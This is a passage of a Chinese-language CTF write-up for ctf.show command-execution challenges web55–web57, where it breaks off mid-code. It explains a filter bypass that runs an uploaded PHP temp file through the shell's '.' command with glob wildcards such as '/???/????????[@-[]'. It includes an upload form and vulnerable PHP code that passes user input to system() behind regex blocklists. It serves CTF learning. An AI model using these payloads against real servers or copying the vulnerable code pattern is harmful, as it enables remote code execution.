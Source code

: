 1. shell下可以利用.来执行任意脚本
1. Linux文件名支持用glob通配符代替

.相当于source，执行一个文件中的命令，那和这题有什么关系呢，我们知道，上传到服务器的文件通常会被创建一个副本保存在指定目录下，而默认目录一般是/tmp/phpXXXXXX，最后六个字符是随机的大小写字母。那我们是不是就可以利用source去执行这个文件呢，确实可以，可以通过构造一个POST数据包进行上传，然后执行服务器上的临时文件，但是文件名有六个字母未知怎么办。可以区分的是，tmp目录下其中的文件是不会有大写字母的，换句话说，最后一个字符是不会出现大写字母的，而恰巧我们上传的文件会有概率被分配到一个包含大写字母的文件名，这一点是区分关键。
接下来是通配符，我们可以用/???/?????????表示/tmp/phpXXXXXX的所有文件，如果要表示大写字符，可以用[@-[]表示，意思是匹配ASCII码在@-[之前所有的字符，而这个区间对应的正好是A-Z
所以payload为：/?c=.+/???/????????[@-[]

- 第一步：构造一个POST请求上传文件
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
</head>
<body>
  <!--链接请自行更换-->
<form action="http://200f2114-2431-4ddf-beaf-ac717d3fbfe6.challenge.ctf.show/" method="post" enctype="multipart/form-data">
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>

```

- 第二步，随便上传个文件，然后抓包，在GET中传入参数执行，POST传入shell命令执行

![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637857221048-80f612cf-8451-49f7-9be3-a8a8ee96440c.png#clientId=u1c3ea20a-1a4c-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=350&id=ud7f3cd56&margin=%5Bobject%20Object%5D&name=image.png&originHeight=523&originWidth=1141&originalType=binary&ratio=1&rotation=0&showTitle=false&size=69874&status=done&style=none&taskId=u58f753fe-ec44-4ef1-ab31-90800cbb801&title=&width=764)
因为每次上传文件名都是随机的，可能不会一次成功，要多发几次包，看到目录文件后继续查看
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637857330375-64accbc9-1585-4be3-945e-e6d9d282327e.png#clientId=u1c3ea20a-1a4c-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=350&id=u7a566341&margin=%5Bobject%20Object%5D&name=image.png&originHeight=536&originWidth=1219&originalType=binary&ratio=1&rotation=0&showTitle=false&size=86471&status=done&style=none&taskId=u95b42a1e-df51-453f-a663-93d7bb21bc4&title=&width=796)
成功读到flag
## web56（无数字字母命令执行）
```php
<?php

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```
同web55
## web57（$(())）
```php
<?php

// 还能炫的动吗？
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
```